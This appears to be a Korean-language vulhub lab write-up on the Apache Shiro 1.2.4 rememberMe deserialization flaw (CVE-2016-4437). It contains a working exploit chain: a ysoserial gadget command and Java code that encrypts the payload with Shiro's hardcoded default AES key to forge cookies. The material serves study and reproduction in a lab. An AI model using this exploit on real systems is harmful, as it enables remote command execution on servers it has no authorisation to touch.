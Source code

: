 # Apache Shiro 1.2.4 반서열화운동 (CVE-2016-4437)
Apache Shiro는 인증, 권한 부여, 암호화 및 세션 관리와 같은 기능을 제공하는 오픈 소스 보안 프레임워크이다. Shiro 프레임워크는 직관적이고 사용하기 쉬우며 동시에 강력한 보안을 제공할 수 있다.
Apache Shiro 1.2.4 및 그 이전 버전에서는 암호화된 사용자 정보가 직렬화된 후 "remember-me"라는 이름의 쿠키에 저장되고 공격자는 Shiro의 기본 키를 사용하여 사용자 쿠키를 위조하고 Java 역직렬화 취약점을 활용하여 대상 컴퓨터에서 임의의 명령을 실행할 수 있다.

# 취약점 환경
다음 명령을 실행하여 Apache Shiro 1.2.4를 사용하는 웹 서비스를 시작할 수 있다.
```
docker compose up -d
```
서비스가 시작된 후 http://your-ip:8080을 방문하여 admin:vulhub을 사용하여 로그인할 수 있다.

# 취약점 재현
ysoserial를 사용하여 CommonsBeanutils1 가젯 생성:
```
java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser
```
Shiro 내장 기본 키를 사용하여 Payload를 암호화:
```
package org.vulhub.shirodemo;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```
rememberMe 쿠키를 전송하면 /tmp/success를 성공적으로 실행할 수 있다 :
<br><img src="1.png" width="1000" height="400" title="px(픽셀) 크기 설정" alt="1번 이미지"></img><br/>


